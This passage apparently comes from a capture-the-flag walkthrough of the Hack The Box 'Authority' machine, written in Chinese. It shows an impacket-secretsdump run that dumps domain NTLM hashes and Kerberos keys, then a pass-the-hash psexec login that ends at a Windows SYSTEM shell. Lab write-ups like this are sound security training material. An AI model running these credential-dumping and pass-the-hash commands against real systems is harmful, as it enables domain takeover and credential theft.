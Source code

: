 ```bash
kali@kali[~]$ impacket-secretsdump 'authority.htb'/'svc_ldap':'lDaP_1n_th3_cle4r!'@10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:9340b9733718df40f039f632d69df42c:::
Machine01$:11602:aad3b435b51404eeaad3b435b51404ee:e1a0227f73dd648c1f7ab8c8bf3e9786:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:3c5169afc9d8725a657ab0bd670b4efc0088a04c3224c83239b8ecd1fb1c436c
AUTHORITY$:aes128-cts-hmac-sha1-96:b14358b4851a568f2bbecc5afa55113e
AUTHORITY$:des-cbc-md5:917c983475cb57a2
Machine01$:aes256-cts-hmac-sha1-96:58e5d17a1df50e2eb655b20bddae63798d03d4cfe7e31d06cc9155259af3149d
Machine01$:aes128-cts-hmac-sha1-96:a0d66f599a3fec2a8911061f4f38c3fe
Machine01$:des-cbc-md5:38a4fb80b301c4f7
[*] Cleaning up... 
```

最后我们使用拿到的 `Administrator` 账户的哈希，通过PTH的方式，使用`psexec`登上受害机。 

```bash
kali@kali[~]$ impacket-psexec 'administrator@authority.htb' -hashes aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on authority.htb.....
[*] Found writable share ADMIN$
[*] Uploading file rMcuMxvt.exe
[*] Opening SVCManager on authority.htb.....
[*] Creating service FFyi on authority.htb.....
[*] Starting service FFyi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

---